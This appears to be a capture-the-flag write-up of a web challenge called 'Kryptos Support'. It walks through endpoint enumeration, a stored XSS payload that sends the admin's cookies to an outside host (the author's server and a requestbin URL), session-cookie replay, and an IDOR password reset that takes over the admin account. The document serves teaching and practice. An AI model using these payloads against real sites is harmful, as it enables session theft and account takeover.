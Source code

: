 ```yaml
---
layout: default
title: Kryptos Support
---
```


# Kryptos Support
*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

This challenge is a support portal for some kind of vault. The landing page allows the user to enter text in a box and submit this as a ticket for an admin to review. There was no authentication on this page. 

There was a link to the **backend**, which led to a login page.

The login form was not susceptible to a simple SQL injection, so I looked elsewhere.

Using **gobuster** to do a quick scan of the website for different pages and/or API endpoints. I found the following:

```
/admin
/settings
/tickets
/logout
/login
/static
```
`/admin`, `/settings`, and `/tickets` redirected to the login page.

The ticket submit form worked, and when submitting a ticket the page displayed a message indicating that support staff would look at it. 

I noted that the ticket data was submitted to `/api/tickets/add`, so I did some exploring looking for other API endpoints (just manually with Firefox) and did not find much. The login form used `/api/login`, but I was not able to view tickets or logins.

The ticket form did not appear to sanitize it's input, so I decided to try stealing the support staff's cookies with a cross-site scripting attack. A quick google search gave me some example XSS cookie stealing code, which I modified for my own use.

I set up a simple web server on a VM with python, using the following commands:

```
mkdir emptyfolder
cd emptyfolder
python3 -m http.server 1337
```
Then I submitted this javascript code in a ticket, and waited for the response. 

```javscript
<script>var i=new Image;i.src="https://my-ip-address-was-here:1337/?"+document.cookie;</script>
```
The URL of the request contained the cookie information, so I was able to simply copy and paste this from my console window.

Later, I discovered [Requestbin](https://requestbin.io) which would have made this a bit easier, and wouldn't as easily reveal my own IP address.

```javscript
<script>var i=new Image;i.src="https://requestbin.io/10270d22/?"+document.cookie;</script>
```

The cookie data was:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE
```

I noted that the session value was a JWT that can be decoded - each section, separated by periods, is just base64 encoded.
```
{"alg":"HS256","typ":"JWT"}
```
```
{"username":"moderator","uid":100,"iat":1652628044}
```
*The last section is not legible, it's a signature for the above data*

I noted that the user was named `moderator` and had a `uid` of `100`.

The JWT's signature wouldn't be valid if I modified the uid or username, so I can't easily exploit those at this point.

In Firefox, I created a cookie named `session` with the value `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE`

In my exploration above, I had found `/tickets`, so with my new cookie I visited that page and was able to view the submitted tickets.

There were two tickets previously submitted which contained some numbers (`000083921` and `000076439`) which I noted for later (but never ended up using). The tickets did not contain names or usernames, so I was not able to get much info from them.

There was a **settings** link, which went to a page that allowed me to change the password of the currently logged in user. Trying this, I was able to reset the password of the **moderator** account. In a "real" engagement, this would make it pretty obvious that the system was compromised, considering the moderator user had just viewed my ticket and was presumably actively using the system, and would notice very quickly that their password had changed to something that they did not know. Luckily, the "moderator" user was just a script because this is just a challenge system, and wouldn't notice a thing.

Using Firefox developer tools, I noticed that changing the password sent a request to the api endpoint `/api/users/update` with the following payload:

```
{
	"password" : "abc123",
	"uid" : "100"
}
```

Unlike the cookie, there is no cryptographic signature here, so I tried changing the `uid` value to `1`. I figured that in most cases, the admin account will be the first account in the database, so probably would have an ID of 1. I used [Insomnia](https://insomnia.rest/) to send this payload, but I later discovered that Firefox developer tools allow you to edit and re-submit the request, and I could have just used that.

```
{
	"password" : "abc123",
	"uid" : "1"
}
```
The response from the API was "Password for admin changed successfully", which gave me the admin username.

The "moderator" account clearly had permissions to reset passwords, but the system allowed it to reset *any* user's password, including the admin. Some security probably should have been in place to prevent a user with password reset privileges from resetting passwords of anyone else at the same or higher security levels, or something like that.

Logging out of the moderator account, and into the admin account using `admin` and the password I set granted me access, and displayed the flag.